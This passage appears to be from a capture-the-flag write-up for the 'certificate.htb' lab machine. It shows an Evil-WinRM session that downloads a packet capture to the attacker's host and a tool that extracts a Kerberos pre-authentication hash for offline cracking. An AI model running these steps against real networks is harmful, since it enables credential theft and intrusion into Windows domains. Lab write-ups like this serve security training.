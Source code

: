 There are interesting documents in the `WS-01` folder
```powershell
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> ls


    Directory: C:\Users\Sara.B\Documents\WS-01


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap


*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> cat Description.txt
The workstation 01 is not able to open the "Reports" smb shared folder which is hosted on DC01.
When a user tries to input bad credentials, it returns bad credentials error.
But when a user provides valid credentials the file explorer freezes and then crashes!
```

Let's download the `pcap` file and analyze it
```powershell
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> download WS-01_PktMon.pcap /home/kali/certificate.htb/capture.pcap

Info: Downloading C:\Users\Sara.B\Documents\WS-01\WS-01_PktMon.pcap to /home/kali/certificate.htb/capture.pcap

Info: Download successful!
```

We're able to extract `kerberos` hashes using [this tool](https://github.com/jalvarezz13/Krb5RoastParser){:target="_blank"}{:rel="noopener noreferrer"}. Clone the repo and run it on our `pcpap` file
```bash
┌──(kali@kali)-[~/certificate.htb]
└─$ git clone https://github.com/jalvarezz13/Krb5RoastParser
Cloning into 'Krb5RoastParser'...
remote: Enumerating objects: 23, done.
remote: Counting objects: 100% (23/23), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 23 (delta 10), reused 7 (delta 4), pack-reused 0 (from 0)
Receiving objects: 100% (23/23), 10.66 KiB | 2.13 MiB/s, done.
Resolving deltas: 100% (10/10), done.

┌──(kali@kali)-[~/certificate.htb]
└─$ cd Krb5RoastParser 

┌──(kali@kali)-[~/certificate.htb/Krb5RoastParser]
└─$ python3 krb5_roast_parser.py 
Usage: python roasting.py <pcap_file> <as_req/as_rep/tgs_rep>

┌──(kali@kali)-[~/certificate.htb/Krb5RoastParser]
└─$ python3 krb5_roast_parser.py ../capture.pcap as_req
$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0
```
